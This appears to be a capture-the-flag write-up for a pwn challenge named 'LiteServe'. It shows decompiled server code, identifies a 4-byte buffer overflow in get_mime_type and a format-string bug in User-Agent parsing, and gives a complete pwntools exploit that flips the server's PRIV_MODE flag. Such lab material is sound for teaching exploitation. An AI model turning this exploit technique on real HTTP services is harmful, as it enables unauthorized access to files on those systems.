

# LiteServe

Class: pwn
Status: Done



Unzip the challenge and we obtain the next files within 


Okay we need to check what’s inside the challenge’s folder


Let’s check the info our server 


Okay well we need to figure it out how can we pwn this server, but first we up the web page to check if get any information. 


Okay let’s disassemble our code to understand what’s going on

In our main function we get the next code: 

```c
int main(int argc,char **argv)

{
  uint16_t uVar1;
  int iVar2;
  char **argv_local;
  int argc_local;
  int opt;
  socklen_t client_addr_len;
  int server_fd;
  pthread_t thread_id;
  char *priv_mode;
  int *client_fd;
  sockaddr_in server_addr;
  sockaddr_in client_addr;
  
  priv_mode = getenv("PRIV_MODE");
  if (priv_mode == (char *)0x0) {
    builtin_strncpy(PRIV_MODE,"OFF",4);
  }
  else {
    iVar2 = strcmp(priv_mode,"ON");
    if (iVar2 == 0) {
      PRIV_MODE[0] = 'O';
      PRIV_MODE[1] = 'N';
      PRIV_MODE[2] = '\0';
    }
    else {
      builtin_strncpy(PRIV_MODE,"OFF",4);
    }
  }
  server_fd = FUN_00401520(2,1,0);
  opt = 1;
  iVar2 = setsockopt(server_fd,1,2,&opt,4);
  if (iVar2 != 0) {
    perror("setsockopt");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  server_addr.sin_zero[0] = '\0';
  server_addr.sin_zero[1] = '\0';
  server_addr.sin_zero[2] = '\0';
  server_addr.sin_zero[3] = '\0';
  server_addr.sin_zero[4] = '\0';
  server_addr.sin_zero[5] = '\0';
  server_addr.sin_zero[6] = '\0';
  server_addr.sin_zero[7] = '\0';
  server_addr.sin_family = 2;
  server_addr.sin_port = 0;
  server_addr.sin_addr.s_addr = 0;
  uVar1 = htons(0x539);
  server_addr.sin_port = uVar1;
  iVar2 = bind(server_fd,(sockaddr *)&server_addr,0x10);
  if (iVar2 != 0) {
    perror("bind");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar2 = listen(server_fd,10);
  if (iVar2 != 0) {
    perror("listen");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    client_addr_len = 0x10;
    client_fd = (int *)malloc(4);
    iVar2 = accept(server_fd,(sockaddr *)&client_addr,&client_addr_len);
    *client_fd = iVar2;
    if (*client_fd < 0) break;
    pthread_create(&thread_id,(pthread_attr_t *)0x0,handle_client,client_fd);
    pthread_detach(thread_id);
  }
  perror("accept");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Checking the functions we have the struct used in the server in the function init_ctx()

Who look for each request we send to the server


> In C programming, "ctx" is a commonly used abbreviation for "context". It typically refers to a data structure, often a `struct`, that encapsulates and carries relevant state information or data required by a set of related functions or a library.
> 

Another interesting function is the extension_is_allowed(). it filters correct extensions to request


Something interestin is de iVar3 = strcmp(PRIV_MODE, “ON”);. It seems like if ON the PRIV_MODE the server can accept all file extensions. So we need  target PRIV_MODE to get all file extensions allow.

Checking more useful functions we catch the get_mime_type() 


Here we find a potential buffer overflow on the ctx→ mime_type if we have an unknown file extension is used. We can take advantage from 

```c
memcpy(ctx → mime_type, ctx→file_extension, 0x24)
```

A size of 0x24 is used when in the size of the mime_type is only 0x20, is only 4 bytes but can try to overwrite some value. So if we put any file extension not handle by the mime_type() we can put in the ctx → mime_type field and if it’s enough large it will overflow the mime_type and overwrite the ctx → debug getting allowed the debug from the server. 

Another interesting function is parse_headers()

> The common use of a "parse headers" function or method is to extract and interpret information from a string or data structure that contains a collection of header fields. This is particularly prevalent in network communication and data processing, where headers convey important metadata.
> 

Here’s the point of we need to focus

 


We can take advantage how is user-agent header is parsed if the user-agent is curl and we have the debug mode on, it prints the version of curl, but we can try a format string. 

## Vector of attack

So we will be exploiting a buffer overflow and a format string vulnerability.

We need to send a request how overwrite ctx→debug then exploit the format string vulnerability

 So we initiliaze our script to success this tasks

Our exploit looks like this

```python
from pwn import *
import socket

bin_ = './server'
elf = context.binary = ELF(bin_, checksec=False)

ip = 'localhost'
port = 1337

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))

# overflow ctx->debug
route = b"xxxx.html"
route += b"A" * (33-4)

def send_req(route, headers={}):
    request = b"GET " + route + b" HTTP/1.1\r\n"
    for key, value in headers.items():
        if isinstance(key, str): key = key.encode()
        if isinstance(value, str): value = value.encode()
        request += key + b": "  + value + b"\r\n"
    request += b"\r\n"
    sock.sendall(request)

target = elf.sym.PRIV_MODE
value = b"ON\x00\x00"

writes = {target : value}

header_pload = b"curl"
header_pload +=  fmtstr_payload(8, writes, write_size="short", numbwritten=len(header_pload))
headers = {"Connection": "close", "User-Agent": header_pload}

send_req(route, headers=headers)

sock.close()
```


And it works only update for remote and we get the flag

